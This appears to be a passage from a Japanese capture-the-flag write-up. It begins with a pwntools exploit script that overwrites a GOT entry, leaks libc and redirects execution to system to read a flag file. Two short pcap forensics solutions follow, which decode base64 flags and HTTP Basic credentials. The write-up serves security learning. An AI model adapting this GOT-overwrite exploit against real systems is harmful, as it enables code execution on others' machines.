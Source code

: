``` python
p.send('echo AAAA > $a \n'
        + 'echo BBBB > $b \n'
        + 'echo AAAAAAAAAAAAAAAAAAAAAAA > $a \n'
        + 'echo CCCC > $c \n'
        + 'cat > $a \n' + p64(strchr_got_plt) + '\x04'
        + 'cat > $b \n\x04'
        + 'cat > $c \n\x21\0\0\0\0\0\0\0\x04'
        + 'cat $c $b $b $a > $b \n'
        + 'echo done \n')
p.recvuntil('done')
p.recvuntil('$ ')
p.send('cat $c \n')
strchr = u64(p.recvuntil('$ ')[:8])
libc = strchr - 0x86e20 - 0x30
system = libc + 0x46640
print(hex(strchr))
print(hex(libc))
print(hex(system))
p.send('cat > $c \n' + p64(system) + '\x04')
# p.send('ls\n') # shellscript
p.send('cat flag2_hard_to_guess_lolololol.txt\n') # shellscript
p.send('exit\n')
p.recvall()
```


## 161  電網術  ftp is not secure.

とりあえず

``` sh
$ strings 161-problem.pcap
```

とすると、`RkxBR3tYVEluWDY5bnF2RmFvRXd3TmJ9Cg==`という文字列が見えたので、base64 decodeするとflagだった。
`FLAG{XTInX69nqvFaoEwwNb}`。

## 162  電網術  ベーシック

``` sh
$ wireshark-gtk 162-basic.pcap
```

見つかる`Authorization: Basic`の行は以下。

``` sh
$ echo dXNlcm5hbWU6cGFzc3dvcmQ= | base64 -d
username:password
$ echo cm9vdDpwYXNzd29yZA== | base64 -d
root:password
$ echo aHR0cDovL2J1cm5pbmcubnNjLmdyLmpw | base64 -d
http://burning.nsc.gr.jp
```


[^1]: かなり偶然上手くいっただけっぽい。